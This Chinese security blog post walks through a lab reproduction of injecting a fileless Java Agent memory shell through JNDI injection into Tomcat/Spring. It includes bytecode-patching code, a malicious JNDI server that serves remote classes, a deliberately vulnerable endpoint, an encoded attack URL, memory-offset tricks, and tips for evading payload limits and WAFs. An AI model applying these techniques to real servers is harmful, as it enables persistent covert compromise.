







# 无文件落地注入 Agent 内存马实操 - 先知社区

无文件落地注入 Agent 内存马实操

- - -

## 前言

上个月看了[rebeyond](https://xz.aliyun.com/u/8697)、[游望之](https://xz.aliyun.com/u/40732)、[Xiaopan233](https://tttang.com/user/Xiaopan233)师傅介绍**无文件落地注入 Agent 内存马技术**的文章，就想着实操复现一下，没想到遇到了很多问题，花了不少时间才解决，于是准备写篇实操记录，帮各位避坑

此项技术适用于**具有动态代码上下文执行能力**情景下的**通用内存马注入**（仅仅 Runtime.getRuntime().exec() 是不行的，必须要有执行**多条代码**的能力）

**提示：**阅读本文需要你对 JNDI 注入、反序列化漏洞有基本认识，当然了解 Agent 内存马更是必须的；如果对这项技术尚未理解，推荐去那几位师傅的博客看看

接下来我将使用自己写的小工具进行模拟攻击注入，在这个过程中谈几个**实战中的问题**，如果读者没有实践过，不妨跟着本文动手操作下

**项目地址**：[https://github.com/whocansee/FilelessAgentMemShell](https://github.com/whocansee/FilelessAgentMemShell) （包括测试所需的简易漏洞环境以及新类字节码）

## 开始

测试环境：Windows 10、JDK8u66、SpringBoot 2（暴露任意反序列化和 JNDI 接口）

以使用 JNDI 注入漏洞向**JDK 低版本、Windows 目标**打入 Agent 内存马为例

### 生成用于注入 Agent 内存马的类文件

首先选用常见的**`org.apache.tomcat.websocket.server.WsFilter`**作为宿主类

javassist 修改其字节码并输出新的 class 文件（在其方法体前面添加了计算器）

```plain
ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("org.apache.tomcat.websocket.server.WsFilter");
        CtMethod m = ctClass.getDeclaredMethod("doFilter");
        m.insertBefore("Runtime.getRuntime().exec(\"calc\");");
        ctClass.writeFile();
        ctClass.detach();
```

在此目录找到生成的新 class 文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231130224320-ce545114-8f8e-1.png)

和工具放到同一目录，使用工具生成最终要让目标加载的类文件（用于将目标类的**旧字节码替换为新字节码**）

```plain
java -jar .\FilelessAgentMemshellGenerator.jar -b 64 -c "org.apache.tomcat.websocket.server.WsFilter" -i false -o "Windows" -p .\WsFilter.class -t false
```

弹出警告，但还是成功生成了所需的类文件[](https://xzfile.aliyuncs.com/media/upload/picture/20231130224345-dd51c44e-8f8e-1.png)

在工具同目录的 out 文件夹下可找到`AgentMemShell.class`

### 配置 JNDI 服务器

**JNDI 恶意服务器可以用 ysomap 等工具快速部署**，这里简单讲讲手工步骤

首先需要启动一个**RMI 服务或者 LDAP 服务**，随便绑定一个远程对象上去

接着使用`python -m http.server`在此目录开启一个 Http 服务

将引用的地址设置为 Http 服务的 URL，如`http://localhost:8000/`，设置类名和工厂名

`Reference refObj = new Reference("AgentMemShell","AgentMemShell","http://localhost:8000/");`

再将引用重绑定给 JNDI 服务

`InitialContext initialContext = new InitialContext();`

`initialContext.rebind("rmi://localhost:11451/remoteObj",refObj);`

**最后启动 JNDI 服务**

```plain
import javax.naming.InitialContext;
import javax.naming.Reference;

public class JNDIServer {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        Reference refObj = new Reference("AgentMemShell","AgentMemShell","http://localhost:8000/");
        initialContext.rebind("rmi://localhost:11451/remoteObj",refObj);
    }
}
```

### 利用 JNDI 注入漏洞实现内存马注入

启动漏洞环境，代码如下

```plain
@GetMapping({"/jndi"})
    public void jndi(@RequestParam String b) throws Exception {
        byte[] decodedBytes  = Base64.getDecoder().decode(b);
        String decodedUrl = new String(decodedBytes , StandardCharsets.UTF_8);
        InitialContext ctx = new InitialContext();
        ctx.lookup(decodedUrl);
    }
```

访问 URL 完成攻击（传过去的`jndi-url`是`rmi://localhost:11451/remoteObj`）

`http://localhost:8080/memShell/jndi?b=cm1pOi8vbG9jYWxob3N0OjExNDUxL3JlbW90ZU9iag==`

随便访问一个不存在的目录，成功弹出了计算器[](https://xzfile.aliyuncs.com/media/upload/picture/20231130224600-2da4f024-8f8f-1.png)

## lambda 表达式报错

没有意外的话此时你应该很顺利地成功注入了 Agent 内存马，并且**没有落地任何文件！**

如果此时想换一个宿主类，比如`org.apache.catalina.core.ApplicationFilterChain`

其他步骤不变，只是在 Javassit 修改类以及用工具生成最终类的时候改变参数，从而生成能够替换`org.apache.catalina.core.ApplicationFilterChain`类的 EXP

再次利用 JNDI 注入打入内存马，你会发现没有生效，查看 Spring 控制台应该能看到以下报错：[](https://xzfile.aliyuncs.com/media/upload/picture/20231130224625-3c7a5350-8f8f-1.png)

**为什么呢？**

### 错误原因

当我们使用 JavaAgent 进行类动态替换时，若**新类字节码**中含有**lambda 表达式**，则会报错，问题可能出在 Instrument API 内部实现逻辑上

恰巧，常用的宿主类`org.apache.catalina.core.ApplicationFilterChain`中的`doFilter()`方法就含有 lambda 表达式，我最开始测试时，无论怎么检查都还是一直报错，直到控制变量使用了其它的宿主类才发现原因

理论上来说，使用 Javassist 修改此方法就可以删除掉 lambda 表达式了，然而事情并没有这么简单，经过测试发现，Javassist**一旦加载了包含 lambda 表达式**的类，不管是添加方法体还是替换方法体，**都无法完全删除 lambda 表达式**

**那该怎么办呢？**

### 解决办法

#### 逃避

最简单的方法，在这里给出 Tomcat 容器下可用的宿主类（**请求处理流程中的必经之类**，且可以在不影响正常运转的前提下增加 shell 逻辑）

**（粗体为推荐使用的类）**

-   **org.apache.tomcat.websocket.server.WsFilter**
-   org.springframework.web.servlet.DispatcherServlet
-   org.apache.catalina.core.ApplicationFilterChain
-   **org.apache.catalina.core.StandardContextValve**
-   javax.servlet.http.HttpServlet（Tomcat 10 之后，javax 变成 jarkara；Weblogic 环境下是 weblogic）

其中**`org.apache.tomcat.websocket.server.WsFilter` 、`org.apache.catalina.core.StandardContextValve`** 是**既没有 lambda 表达式**，又长度**较短**的类

（注意，如果选用`org.apache.catalina.core.StandardContextValve`作为宿主类，则应该要修改它的`invoke()`方法体）

#### 直面

不是什么时候都可以换类逃避的，Agent 内存马通用性极强，这就意味着它需要面对许多不同的场景，当遇到不得不选择包含 lambda 表达式的宿主类时：

**除了解决问题，别无他法**

这里给出最合适的解决方案以及自己的探索过程

##### 换框架#最有效的解决方案

有接触过字节码修改技术的师傅应该都用过 Java 下的 ASM 框架，相较于 Javassist 框架，其功能更为强大，删除 lambda 表达式显然是不在话下的

然而本人水平有限，没有找到单独删除 lambda 表达式的通用方法，只想到完全删除方法体的办法来去除 lambda 表达式，后续再使用 Javassist 读取 ASM 生成的字节码，从而简单地编写复杂的 shell 逻辑，比较迂回和麻烦

这里给出**~ChatGPT 写的~**利用 ASM 框架**删除目标类某方法体中所有内容**（包括 lambda 表达式）并替换为输出"Hello World"的代码：

```plain
import org.objectweb.asm.*;

import java.io.FileOutputStream;
import java.io.IOException;

public class ModifyCalcMethod {
    public static void main(String[] args) {
        try {
            byte[] modifiedClass = modifyCalcMethod();

            // 将修改后的类写入文件
            try (FileOutputStream fos = new FileOutputStream("Hello.class")) {
                fos.write(modifiedClass);
            }

            System.out.println("Modified class written to: Hello.class");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static byte[] modifyCalcMethod() throws IOException {
                // 指定要修改的类
        ClassReader classReader = new ClassReader("org.apache.catalina.core.ApplicationFilterChain");
        ClassWriter classWriter = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
        ClassVisitor classVisitor = new ClassVisitor(Opcodes.ASM7, classWriter) {
            @Override
            public MethodVisitor visitMethod(int access, String name, String desc, String signature, String[] exceptions) {
                //指定要修改的方法
                if (name.equals("doFilter")) {
                    MethodVisitor newMethod = super.visitMethod(access, name, desc, signature, exceptions);
                    newMethod.visitCode();
                    newMethod.visitFieldInsn(Opcodes.GETSTATIC, "java/lang/System", "out", "Ljava/io/PrintStream;");
                    newMethod.visitLdcInsn("Hello, World!");
                    newMethod.visitMethodInsn(Opcodes.INVOKEVIRTUAL, "java/io/PrintStream", "println", "(Ljava/lang/String;)V", false);
                    newMethod.visitInsn(Opcodes.RETURN);
                    newMethod.visitMaxs(2, 1);
                    newMethod.visitEnd(); // 想要去掉Hello World用Javassist二次编辑就行了
                    return null; // 返回 null 表示清空原始方法体
                } else {
                    return super.visitMethod(access, name, desc, signature, exceptions);
                }
            }
        };
        classReader.accept(classVisitor, 0);

        return classWriter.toByteArray();
    }
}
```

不出意外的话，问题顺利解决了

此时你可能有一个疑惑，源码中看到的 lambda 表达式就那么几行，**为什么这么难删？**

事实上，Javassist 和 ASM 框架操作的都是在字节码级别上操作修改类，前者用着确实很方便，可以像操作源代码一样操作字节码，但后果就是一旦出现问题，很难找到根本原因并解决；后者 ASM 虽然精确而强大，但操作起来却非常复杂繁琐

**如此一来，似乎直接操作源代码是最好的选择**

##### 从源代码层面下手

大部分第三方组件库都是可以拿到源码的，我们可以修改源码，然后再自行编译，从而简单地删除 lambda 表达式

然而，其依赖关系通常错综复杂，所以需要一些**精细的操作**

以修改`org.apache.catalina.core.ApplicationFilterChain`为例 找到其所处 jar 包的源码，我这里使用的是`tomcat-embed-core-9.0.63-sources`

解压 source-jar 包，找到目标类的 java 文件（以及目录文件夹）并**单独拿出来**

在其同一目录创建 IDEA 项目，添加所需依赖（此例为 Maven 中的`springframework.boot.spring.starter.web`的对应版本`2.7.0`）

然后就可以简单地修改源码并顺利编译了，成功得到新 class 文件！

接着替换修改后的字节码，**然而却遇到了新报错：**

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130224448-02c30ac6-8f8f-1.png)

JavaAgent 技术的确是不允许增删方法、增删属性值的，但我们只是删除了源码中的 lambda 表达式部分，为什么会引起这个报错呢？

事实上，**编译后的 Lambda 表达式本质上是一种匿名函数**，其可以视为对函数接口的实现

因此，对于`org.apache.catalina.core.ApplicationFilterChain`类中包含了 lambda 表达式的部分代码

```plain
java.security.AccessController.doPrivileged(
        (java.security.PrivilegedExceptionAction<Void>) () -> {
            internalDoFilter(req,res);
            return null;
        }
);
```

使用以下代码来代替

```plain
java.security.AccessController.doPrivileged(
    new java.security.PrivilegedExceptionAction<Void>() {
        @Override
        public Void run() throws Exception {
            internalDoFilter(req, res);
            return null;
        }
    }
);
```

编译，得到 class 文件，动态替换类

仍然报错........

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130224643-4770666e-8f8f-1.png)

看来 Instrument API 并不认同这种等效代替方案，那简直有点无计可施了，只剩下**最后的方法**

参考 JRebel,spring-loaded,hotcode2 等热部署工具的原理，在每个调用了`ApplicationFilterChain.filter()`的地方都做一层代理，直接加载一个全新的代理类，也就能突破不允许增删方法、增删属性值的限制了

需要替换多个类，这显然**很麻烦**，看来还是**换宿主类和换框架**最方便

##### 补充

看完源代码修改这节的师傅或许会有一个疑惑，既然删除 lambda 表达式相关代码会造成**增删方法**的效果

**那 ASM 框架又是怎么做到既能删除 lambda 表达式又不违反 Instrument API 要求的呢？**

如果熟悉类字节码结构的话就很好理解，我给出的**利用 ASM 删除 lambda 表达式**的代码，其实际上只是清空了`doFilter()`方法中残余的会引发 Instrument API 报错的数据，并没有删掉**字节码中 lambda 表达式经过编译而生成的方法**

## JDK 版本

### 自身

**编译字节码和运行工具时，尽量使用低版本 JDK**，以获得更好的兼容性

### 目标

除去对于漏洞利用的影响（如 JNDI 注入高版本低版本区别）

目标采用的是 JDK11 还是 JDK8，对于 EXP 生成也有几个方面的影响：

#### `can_redefine_classes`偏移

在普通 Java Agent 使用中，`agent.jar`的`MANIFEST.MF`文件中有一行配置

**`Can-Redefine-Classes`**，其决定了是否能使用`redefineClasses()`方法来动态替换类

无文件落地 Agent 技术中，它的数值存放于`jvmtiEnv*`指针所指向内存地址后的某个偏移量处

其默认为零，因此需要为它填充数值

不同 JDK 大版本下偏移量的数值是不同的，理论上需要搜寻所有的偏移量，根据不同 JDK 版本设置不同的 EXP

经过测试，向多个可能的内存地址都填充值也能正常运作，所以我在项目中是这样实现的（针对 64 位目标）

```plain
unsafe.putByte(native_jvmtienv + 377, (byte) 2);
unsafe.putByte(native_jvmtienv + 361, (byte) 2);
unsafe.putByte(native_jvmtienv + 369, (byte) 2);
```

#### Unsafe 相关

JDK8 下，Java 默认会对 Unsafe 的调用进行警告，并提示将在未来版本删除它

到了 JDK11，必须要在编译时添加相关参数才能使用 Unsafe

#### Instument API 相关

JDK11 下，执行完动态替换类操作后，目标的控制台会出现警报

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130224427-f66bacba-8f8e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130224658-50705ba2-8f8f-1.png)

具体在**JDK17**之后，**完全禁止**了不安全的反射调用

#### Windows 下不同的虚拟机实现类

向 Windows 目标注入 shellcode 时，需要用到虚拟机相关的类，其在不同 JDK 版本类名发生了变化

JDK8： `WindowsVirtualMachine`

JDK9 及更高： `VirtualMachineImpl`

### 工具

以上所有点都已在项目中得到解决

## payload 长度限制

### 问题

在此次测试中，利用 JNDI 注入漏洞打入 Agent 内存马一般不存在 payload 长度限制的问题，**然而**

当实战环境下需要利用**反序列化漏洞**一次打入 Agent 内存马时，由于包含了大量的硬编码字节码以及 shellcode，最终编译出的字节码会很大，payload 长度会很长，并不适用于一些**只能通过 GET 参数甚至请求头**打入**反序列化 payload**的情况；就算是用 POST，由于传输数据量过大，也有被 WAF 检测的风险

有关这个问题，我将在之后单独探讨 payload 长度受限时的**千方百计**，并在工具的后续更新中完成部分自动化缩短实现

此处仅给出最有效的几条路径

### 解决方案

#### 生成尽可能小的新类字节码

这就要求在选用宿主类阶段就优先考虑内容比较少的类，或是在**不影响正常逻辑的前提**下删掉所有能删的方法体内容

#### 转到无长度限制的反序列化流程中

在目标出网的前提下，通过 UnicastRef 链、LDAPAttribute 链，开启新反序列化入口

#### 尝试消除目标对长度的限制

不同的中间件对于不同的 payload 插入位置（URL、请求头、POST 数据）有不同的限制，在注入之前先解除长度限制也是一种清奇的思路

## REFERENCE

Java 内存攻击技术漫谈 [https://xz.aliyun.com/t/10075](https://xz.aliyun.com/t/10075)

论如何优雅的注入 Java Agent 内存马 [https://xz.aliyun.com/t/11640](https://xz.aliyun.com/t/11640)

Linux 下无文件 Java agent 探究 [https://tttang.com/archive/1525](https://tttang.com/archive/1525)

Linux 下内存马进阶植入技术 [https://xz.aliyun.com/t/10186](https://xz.aliyun.com/t/10186)

终极 Java 反序列化 Payload 缩小技术 [https://developer.aliyun.com/article/1160545](https://developer.aliyun.com/article/1160545)
